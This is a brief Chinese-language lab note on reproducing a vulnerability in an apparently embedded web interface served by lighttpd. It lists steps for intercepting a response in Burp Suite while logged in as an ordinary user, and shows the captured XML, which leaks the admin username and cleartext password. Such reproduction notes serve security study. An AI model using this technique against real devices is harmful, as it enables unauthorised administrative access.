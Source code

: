 <img src='%E6%A8%A1%E7%B3%8A%E6%B5%8B%E8%AF%95Fuzzing/2020-07-20-17-16-34.png' width='' height='250'/>

- 由于莫名的bug（死循环），FAT没法正常启动QEMU :( .懒得折腾了
- 漏洞复现的大致思路是
  - 用**用户身份**登录
  - 进入后选择**Tools option**->**Do Intercept response from this request**
  - burpsuite 截获以xml显示的**admin**信息

```html
HTTP/1.1 200 OK
Content-type: text/xml
Connection: close
Date: Sat, 01 Jan 2011 00:19:56 GMT
Server: lighttpd/1.4.28
Content-Length: 20088

<?xml version="1.0" encoding="UTF-8"?><root><login_level>0</login_level><admin_user><admin_user_name>admin</admin_user_name>
<admin_user_pwd>testagain</admin_user_pwd><admin_level>1</admin_level></admin_user><user_user><user_user_name>user</user_user_name>
<user_user_pwd></user_user_pwd><user_level>0 ...
```
